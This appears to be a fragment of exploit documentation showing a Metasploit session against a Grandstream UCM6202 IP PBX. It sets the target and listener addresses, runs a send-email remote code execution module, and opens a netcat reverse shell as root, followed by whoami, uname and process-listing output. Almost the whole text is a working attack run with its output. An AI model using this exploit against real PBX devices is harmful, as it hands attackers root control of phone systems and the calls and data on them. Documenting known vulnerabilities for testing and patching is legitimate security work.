 ```
Revision	: 63015
Serial		: 1126b9d4eacb275c
```

### Grandstream UCM6202 IP PBX firmware version 1.0.18.13. Get reverse shell using netcat.

```
msf6 > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set target 0
target => 0
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51251 ) at 2022-01-15 12:19:18 -0800

whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
ps faux
PID   USER     TIME   COMMAND
    1 root       0:00 /sbin/init
    2 root       0:00 [kthreadd]
    3 root       0:05 [ksoftirqd/0]
    5 root       0:00 [kworker/u:0]
    6 root       0:00 [migration/0]
    7 root       0:00 [khelper]
    8 root       0:00 [kworker/u:1]
  156 root       0:00 [sync_supers]
  158 root       0:00 [bdi-default]
  160 root       0:00 [kblockd]
  186 root       0:00 [imx6q-ecspi.0]
  188 root       0:00 [imx6q-ecspi.2]
  197 root       0:00 [khubd]
  293 root       0:00 [rpciod]
  301 root       0:00 [usb_wakeup thre]
  304 root       0:00 [usb_wakeup thre]
  315 root       0:00 [kswapd0]
  316 root       0:00 [ksmd]
  317 root       0:00 [fsnotify_mark]
  318 root       0:00 [nfsiod]
  323 root       0:00 [crypto]
  438 root       0:00 [kworker/0:3]
  440 root       0:01 [mmcqd/0]
  441 root       0:00 [mmcqd/0boot0]
  442 root       0:00 [mmcqd/0boot1]
  564 root       0:00 udevd --daemon
 1477 root       0:00 [kworker/1:2]
 3677 root       0:00 [kworker/0:1]
 3716 root       0:00 [kworker/1:0]
 5347 root       0:00 [kworker/0:0]
```